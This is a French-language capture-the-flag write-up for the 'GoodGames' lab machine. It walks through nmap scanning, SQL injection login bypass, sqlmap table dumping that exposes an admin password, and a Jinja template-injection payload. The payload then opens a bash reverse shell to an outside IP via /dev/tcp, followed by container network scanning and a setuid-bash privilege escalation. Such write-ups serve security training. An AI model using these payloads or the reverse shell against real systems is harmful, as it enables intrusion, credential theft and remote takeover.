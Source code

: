 Difficulte : Easy

# Enumeration 
## Nmap
Nous commençons par exécuter une analyse Nmap sur la cible . 

```
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-title: GoodGames | Community and Store
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS POST
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB

```

Le scan Nmap nous montre que seul le port 80 est ouvert et héberge le serveur Python 3.9.2

## Python Webserver
En Navigant sur le port 80 nous trouvons un site web . goodgames.htb/

![[Pasted image 20250417162912.png]] 


```
sudo echo " 10.10.11.130   goodgame.htb" > /etc/hosts 
```

En expectant la fonctionnalité de connexion , Nous essayons une injection SQL , et nous constations que nous devons saisir une adresse email valide .

Saisissons une adresse email valide et allons echanger cet email dans burp suite par celle de l'administrateru admin@goodgames.htb , nous voyons bienvenue 


![[Pasted image 20250417163258.png]]

## SQL injection 
Apres avoir detecter une injection SQL , pour contourner l'authentification nous allons enregistrer la requette dans un fichier goodgame.req 
 Enumerons la base de donnee et les tables pour identifier toutes les informations sensible qui peuvent etre stocke . 
 
```
 sqlmap -r goodgame.reg --dbs
```

Nous découvrons deux bases de données 
information_schema
main 

![[Pasted image 20250417165918.png]]

```
sqlmap -r goodgames.req -D main --tables
```

![[Pasted image 20250417170201.png]]

```
sqlmap -r goodgame.req -D main -T user --dump
```

![[Pasted image 20250417171542.png]]

admin@goodgames.htb :superadministrator

En haut à droite de la page d'administration, il y a une icône d'engrenage supplémentaire. C'est un lien vers `http://internal-administration.goodgames.htb/login`. Je vais l'ajouter à mon profil `/etc/hosts`et visiter la page. C'est un formulaire de connexion

![[Pasted image 20250421135957.png]]

le nom d'utilisateur "admin" et le mot de passe "superadministrator" permettent accéder a la page du dashboard 

![[Pasted image 20250421140123.png]]


# Server-side Template Injection 

je peux essayer une charge utile simple pour voir si je peux obtenir l'exécution du système via ce SSTI :
```
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

![[Pasted image 20250421141229.png]]

nous pouvons alors faire un reverse Shell 

```
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& 
/dev/tcp/10.10.14.6/443 0>&1"').read() }}
```


![[Pasted image 20250421141957.png]]

# Root 
## Enumeration 
 il est clair que nous sommes dans un conteneur docker . je trouve beaucoup de fichier relatif a docker .
 ![[Pasted image 20250421142430.png]]
je vois un utilisateur 1000 , et nous avons pas d'utilisateur 1000 dans le fichier /etc/password 

je suppose que le repertoire est monte dans un conteneur . vérifions
nous avons une adresse ip  


![[Pasted image 20250421142826.png]]

fais un balayage ping 
```
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```

```
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```


Docker est dans la liste des processus  

![[Pasted image 20250421143838.png]]
bous voyons que augustus a les memes fichiers dans le repertoire du conteneur . 
## shell 
Nous allons copier le fichier /bin/bash dans le repertoire personnel d'augustus 

![[Pasted image 20250421145143.png]]

![[Pasted image 20250421145245.png]]


executions bash avec -p pour que les privileges ne soient pas abandonnes . 

![[Pasted image 20250421145406.png]]
